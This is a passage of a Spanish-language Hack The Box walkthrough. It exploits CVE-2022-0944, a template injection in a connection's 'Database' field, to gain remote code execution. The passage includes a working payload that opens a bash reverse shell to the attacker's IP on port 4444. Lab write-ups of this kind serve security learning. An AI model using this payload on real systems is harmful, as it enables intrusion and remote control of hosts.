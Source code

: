 Y 2 posibles usuarios, **admin** y **john**.

![picture](/assets/images/hackthebox/sigh7.png){: w="600" h="300" }

---

## **Explotación**

Investigando sobre la versión del servicio, he encontrado la vulnerabilidad **CVE-2022-0944**, y en la siguiente [**Web**](https://nvd.nist.gov/vuln/detail/CVE-2022-0944) nos indica como explotarlo, en la cual mediante una **Template Injection** (*posibilidad de ejecutar código malicioso en una plantilla*) podemos derivarlo a un **RCE** (*Remote Code Execution*).

El campo vulnerable es "**Database**", tendremos que introducir en ese campo el **payload** mencionado en la [**Web**](https://nvd.nist.gov/vuln/detail/CVE-2022-0944).

- Para ello nos iremos a "*Connections > New connection*", le pondremos un nombre cualquiera, y elegiremos el "*Driver*" de **MySQL**..

- Indicaremos nuestra **IP** y el **puerto**.

- E introducimos el **payload**, junto con el código que hayamos elegido.

Yo introduciré el código para que me devuelva una **Reverse Shell**, que nos devolverá una **Shell interactiva** en nuestra máquina local.

```bash
{ { process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/'Nuestra Ip'/4444 0>&1"') }}
```

Y lo guardamos.
